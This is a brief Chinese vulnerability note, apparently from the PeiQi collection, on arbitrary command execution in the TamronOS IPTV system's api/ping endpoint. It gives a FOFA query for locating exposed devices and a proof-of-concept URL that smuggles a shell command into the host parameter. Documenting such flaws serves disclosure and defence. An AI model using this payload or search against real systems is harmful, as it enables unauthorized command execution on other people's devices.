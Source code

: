 ```yaml
---
title: TamronOS IPTV系统 ping 任意命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - TamronOS
---
```


# TamronOS IPTV系统 ping 任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

> [!NOTE]
>
> TamronOS IPTV系统

## FOFA

> [!NOTE]
>
> app="TamronOS-IPTV系统"

## 漏洞复现

登录页面如下

![image-20210615145308242](/img/20210924020301684934.png)

漏洞POC为

```
/api/ping?count=5&host=;id;
```

![image-20210615145342322](/img/20210924020301973033.png)